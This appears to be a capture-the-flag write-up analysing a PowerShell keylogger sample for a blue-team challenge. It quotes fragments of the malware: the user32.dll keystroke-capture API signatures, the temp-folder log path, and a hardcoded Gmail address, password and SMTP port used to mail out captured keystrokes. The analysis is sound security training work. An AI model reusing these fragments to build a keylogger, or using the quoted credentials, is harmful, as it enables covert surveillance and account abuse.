 ```yaml
---
layout: post
title: PowerShell Analysis - Keylogger
date: '2023-10-08 20:23:20 +0300'
image: /assets/img/cover_images/3.png
categories: [BTLO, Reverse Engineering]
tags: [BTLO, Text Editor]
---
```


## PowerShell Analysis - Keylogger
A suspicious PowerShell script was found on one of our endpoints. Can you work out what it does? 

##  What is the SHA256 hash value for the PowerShell script file? (1 points) 

```bash
❯ sha256sum HDWallpaperEngine.txt
e0b7a2ad2320ac32c262aeb6fe2c6c0d75449c6e34d0d18a531157c827b9754e
```

##  What email address is used to send and receive emails? (1 points) 
```bash
$From = "chaudhariparth454@gmail.com"
$Pass = "yjghfdafsd5464562!"
$To = "chaudhariparth454@gmail.com"
$Subject = "Keylogger Results"
```

##  What is the password for this email account? (2 points) 

```bash
$Pass = "yjghfdafsd5464562!"
```

##  What port is used for SMTP? (2 points) 

```bash
$SMTPPort = "587"
```

##  What DLL is imported to help record keystrokes? (2 points) 

```bash
#requires -Version 2
function Start-KeyLogger($Path="$env:temp\keylogger.txt") 
{
  # Signatures for API Calls
  $signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
public static extern short GetAsyncKeyState(int virtualKeyCode); 
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@
```
##  What directory is the generated txt file put in? (2 points) 

```bash
#requires -Version 2
function Start-KeyLogger($Path="$env:temp\keylogger.txt") 
```